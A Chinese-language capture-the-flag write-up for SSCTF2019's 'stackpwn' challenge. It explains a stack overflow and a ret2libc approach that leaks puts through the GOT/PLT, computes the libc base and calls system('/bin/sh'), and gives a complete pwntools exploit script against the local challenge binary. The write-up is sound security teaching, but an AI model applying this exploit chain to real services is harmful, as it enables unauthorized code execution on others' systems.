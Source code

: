 # SSCTF2019 PWN题题解



# SSCTF2019 PWN题题解

## stackpwn

1. 首先file,checsec走一遍，64位程序，动态链接，开了NX

2. IDA直接看，main函数：  

    ![](/img/ssctf/picture/pwn//stackpwn/main.png)
    
3. 进入vuln看一下：

    ![](/img/ssctf/picture/pwn/stackpwn/vuln.png)

    容易看出，存在溢出点，且v1到返回地址的距离为(0x10 + 0x8 = 0x18)。

到此为止，我们大致明白了程序的流程：通过vuln函数进行栈溢出，但是程序没有给出system函数，所以需要我们进行两次利用，第一次利用进行地址泄漏，需要使用ROP，第二次真实进行攻击。  
**基本思路是首先泄漏出puts函数的实际地址（因为在main函数和溢出之前都使用过了，所以程序内存中存在puts函数的真实地址.使用pop rdi;ret将got表中的存放的puts函数的真实地址利用plt表中的puts函数打印出来，我泄漏我自己），然后泄漏libc的基地址，然后获取system函数的实际地址（libc基地址+system偏移地址）；程序中有/bin/sh字符串，所以直接用就可以了**。  
### Exp：
```
from pwn import *

context.log_level = 'debug'

p = process('./stackpwn')

offset = 0x18   #0x10+0x8
pop_rdi_ret = 0x0000000000400933  #ROPgadet : rdi
bin_sh = 0x0000000000400954   # address of /bin/sh

elf = ELF("./stackpwn")
libc = elf.libc     # leak libc

payload = 'A'*offset + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x00000000004007E7) #last address is main address
p.recvuntil("instructions...\n")

p.sendline(payload)

#get puts address
puts_addr = u64(p.recv(6).ljust(8,'\x00'))

#get libc address
puts_base = libc.symbols['puts']
libc_base = puts_addr - puts_base

#get system address
sys_addr = libc_base + libc.symbols['system']

#second loop
payload2 = 'A'*offset + p64(pop_rdi_ret) + p64(bin_sh) + p64(sys_addr)
p.sendline(payload2)
p.interactive()

```


